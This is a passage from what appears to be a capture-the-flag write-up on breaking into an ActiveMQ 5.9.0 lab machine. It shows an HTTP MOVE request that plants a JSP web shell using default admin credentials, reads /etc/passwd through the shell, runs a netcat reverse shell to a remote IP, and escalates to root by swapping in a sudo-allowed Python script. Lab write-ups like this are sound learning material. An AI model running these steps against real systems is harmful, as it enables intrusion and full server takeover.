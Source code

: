 But the typo doesn't matter because we have to MOVE it anyway, since it doesn't have execute permission where we created it anyway.

{% highlight html %}
MOVE /fileserver//1.jps HTTP/1.1
Destination: file:///opt/apache-activemq-5.9.0/webapps/admin/1.jsp
Host: broker:8161
Authorization: Basic YWRtaW46YWRtaW4=
Content-Length: 0
{% endhighlight %}

Now we've got that we can do:

``
http://broker:8161/admin/1.jsp?cmd=cat+/etc/passwd
``

Or whatever. It took a while to find a reverse shell trigger but this one did it:

``
http://broker:8161/admin/1.jsp?cmd=nc%20-e%20/bin/sh%2010.9.10.123%201234
``

## Privesc
We're on the box as *activemq* and we get the user flag. Privesc is simple; we can run a python script as root and we own that script. Here's my method:

{% highlight shell %}
activemq@activemq:/opt/apache-activemq-5.9.0$ sudo -l
sudo -l
Matching Defaults entries for activemq on activemq:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User activemq may run the following commands on activemq:
    (root) NOPASSWD: /usr/bin/python3.7 /opt/apache-activemq-5.9.0/subscribe.py
# let's get that out of the way
activemq@activemq:/opt/apache-activemq-5.9.0$ mv subscribe.py no.py
# make our own
activemq@activemq:/opt/apache-activemq-5.9.0$ printf 'import os\nos.system("/bin/bash")\n' >> subscribe.py
activemq@activemq:/opt/apache-activemq-5.9.0$ chmod +x subscribe.py
# run it
activemq@activemq:/opt/apache-activemq-5.9.0$ sudo -u root /usr/bin/python3.7 /opt/apache-activemq-5.9.0/subscribe.py
root@activemq:/opt/apache-activemq-5.9.0# id;hostname
id;hostname
uid=0(root) gid=0(root) groups=0(root)
activemq
{% endhighlight %}

Done! Not super easy; quite satisfying to do so thumbs up to ripcurlz and ms.geeky.
